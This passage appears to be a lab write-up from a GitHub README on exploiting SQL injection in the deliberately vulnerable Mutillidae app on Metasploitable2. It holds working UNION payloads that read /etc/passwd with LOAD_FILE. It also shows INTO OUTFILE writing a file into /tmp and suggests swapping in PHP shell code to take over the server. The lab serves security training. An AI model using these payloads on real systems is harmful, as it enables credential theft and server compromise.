 ![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/62e42f95-9fe4-4f4e-aa3a-a7f174bbbf99)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details




![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/ad498f3b-029a-44c3-8576-59616094d17f)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
